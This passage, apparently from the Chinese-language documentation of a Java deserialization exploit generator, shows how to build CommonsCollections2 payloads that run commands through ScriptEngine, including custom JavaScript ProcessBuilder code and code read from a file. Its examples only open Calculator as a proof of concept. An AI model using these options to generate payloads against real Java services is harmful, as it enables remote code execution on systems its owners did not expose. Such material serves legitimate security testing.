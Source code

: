 ### ScriptEngine

通过 `-cmdt` 参数指定命令执行类型为 `ScriptEngine` 

eg. `-g commonscollections2 -e command -cmd "open -a Calculator.app" -cmdt ScriptEngine`

![image-20240419101743213](attachments/image-20240419101743213.png)

+ `-code` 支持自定义 js 语句

eg. `-g commonscollections2 -e command -cmdt ScriptEngine -code "x=new java.lang.ProcessBuilder;x.command('open','-a','Calculator.app');x.start();"`

![image-20240419104955526](attachments/image-20240419104955526.png)

+ `-cf` 对于`InvokerTransformer` 增强的链支持从文件中获取复杂语句

eg. `-g commonscollections2 -e command -cmdt ScriptEngine -cf code.txt`

![image-20240419110149928](attachments/image-20240419110149928.png)
